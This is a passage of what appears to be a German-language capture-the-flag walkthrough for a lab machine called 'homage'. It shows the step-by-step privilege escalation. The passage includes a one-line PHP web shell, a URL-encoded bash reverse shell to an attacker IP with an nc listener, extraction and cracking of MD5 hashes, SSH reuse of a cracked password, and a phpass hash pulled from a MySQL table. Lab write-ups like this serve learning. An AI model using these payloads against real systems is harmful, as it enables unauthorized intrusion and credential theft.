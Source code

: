 2.  **Web Shell Upload:**
    *   Als `l4nr3n` wurde eine PHP-Web-Shell (`shell.php`) in `/var/www/html` erstellt:
        ```php
        <?php system($_GET['cmd']); ?>
        ```
3.  **Reverse Shell als `www-data`:**
    *   Über die Web-Shell (`http://192.168.2.114/shell.php?cmd=[payload]`) wurde eine Bash-Reverse-Shell zu einem `nc`-Listener auf dem Angreifer-System gestartet:
        ```bash
        # Auf Angreifer-Maschine:
        # nc -lvnp 9001
        # Über Web-Shell (URL-kodiert):
        # /shell.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F[Angreifer-IP]%2F9001%200%3E%261%27
        ```
    *   Dies gewährte eine interaktive Shell als `www-data`.

### www-data -> softy_hack (Passwort-Crack aus Web-Archiv)

1.  **Analyse von Web-Archiven:**
    *   Als `www-data` wurde das Verzeichnis `/var/www/html/HMV_old_archives/` untersucht. Es enthielt zahlreiche HTML-Dateien.
    *   Eine `for`-Schleife extrahierte aus der jeweils letzten Zeile dieser Dateien Zeichenketten, die sich als MD5-Hashes herausstellten:
        ```bash
        www-data@homage:/var/www/html/HMV_old_archives$ for i in $(ls);do tail -n 1 $i | awk '{print $1}';done
        ```
2.  **Hash-Cracking:**
    *   Die Hashes wurden bei Crackstation.net eingegeben.
    *   Der Hash `91fb7ea6c76b087b53068d91195948c8` wurde zu `1passwordonly` geknackt.

3.  **SSH-Login als `softy_hack`:**
    *   Das Passwort `1passwordonly` wurde erfolgreich für einen SSH-Login als `softy_hack` verwendet.

### softy_hack -> d4t4s3c (DB-Enumeration & Passwort-Crack)

1.  **Datenbank-Enumeration:**
    *   Als `softy_hack` zeigte `ss -tulpe` einen MySQL/MariaDB-Dienst auf `127.0.0.1:3306`.
    *   Der Login zur Datenbank als `softy_hack` mit dem Passwort `1passwordonly` war erfolgreich:
        ```bash
        mysql -u softy_hack -p
        ```
    *   In der Datenbank `hmv_db`, Tabelle `hmv_users`, wurde der phpass-Hash für den Benutzer `d4t4s3c` gefunden: `$P$BRibz10RghJBstfw7PW7QKxtFRC7d/.`.
